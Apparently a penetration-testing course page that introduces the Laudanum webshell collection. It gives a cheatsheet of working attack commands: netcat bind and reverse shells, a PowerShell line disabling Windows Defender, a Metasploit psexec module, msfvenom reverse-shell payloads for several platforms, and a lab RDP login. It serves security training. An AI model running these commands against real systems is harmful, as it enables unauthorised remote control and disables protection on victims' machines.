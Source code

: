 ![reverse](images/reverseshell.png)

### Laudanum, One Webshell to Rule Them All

Laudanum is a repository of ready-made files that can be used to inject onto a victim and receive back access via a reverse shell, run commands on the victim host right from the browser, and more. The repo includes injectable files for many different web application languages to include `asp`, `aspx`, `jsp`, `php`, and more. This is a staple to have on any pentest. If you are using your own VM, Laudanum is built into Parrot OS and Kali by default. For any other distro, you will likely need to pull a copy down to use. You can get it [here](https://github.com/jbarcia/Web-Shells/tree/master/laudanum).

### Cheatsheet

| Commands                                                                                            | Description                                                                                                                                                                                           |
| --------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`                                       | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                                  |
| `env`                                                                                               | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                           |
| `sudo nc -lvnp <port #>`                                                                            | Starts a netcat listener on a specified port                                                                                                                                                          |
| `nc -nv <ip address of computer with listener started><port being listened on>`                     | Connects to a netcat listener at the specified IP address and port                                                                                                                                    |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (/bin/bash) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |
| `Set-MpPreference -DisableRealtimeMonitoring $true`                                                 | Powershell command using to disable real time monitoring in Windows Defender                                                                                                                          |
| `use exploit/windows/smb/psexec`                                                                    | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing smb & psexec                                                                           |
| `shell`                                                                                             | Command used in a meterpreter shell session to drop into a system shell                                                                                                                               |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`      | MSFvenom command used to generate a linux-based reverse shell stageless payload                                                                                                                       |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`        | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                                     |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`    | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                                 |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`  | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                                     |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`       | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                                     |